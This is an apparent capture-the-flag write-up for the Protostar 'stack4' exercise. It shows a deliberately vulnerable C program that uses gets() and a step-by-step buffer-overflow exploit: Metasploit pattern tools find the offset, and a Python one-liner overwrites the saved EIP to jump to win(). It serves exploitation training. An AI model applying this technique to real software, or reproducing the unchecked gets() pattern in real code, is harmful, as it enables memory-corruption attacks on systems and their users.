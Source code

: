 #### Stack4

###### About

- Stack4 takes a look at overwriting saved EIP and standard buffer overflows.
- This level is at ``/opt/protostar/bin/stack4``
- Hints
	- A variety of introductory papers into buffer overflows may help.
	- gdb lets you do ``run < input``
	- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```stack4.c```

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ ./stack4
AAAA
user@protostar:/opt/protostar/bin$
```

```sh
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
root@kali:~#
```

```sh
user@protostar:/opt/protostar/bin$ ./stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" > /tmp/pay
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./stack4 -q
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) r < /tmp/pay
Starting program: /opt/protostar/bin/stack4 < /tmp/pay

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb)
```

```sh
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 63413563
[*] Exact match at offset 76
root@kali:~#
```

```sh
user@protostar:/opt/protostar/bin$ objdump -d stack4 | grep win
080483f4 <win>:
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ python -c "print 'A'*76 +'\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
Segmentation fault
user@protostar:/opt/protostar/bin$
```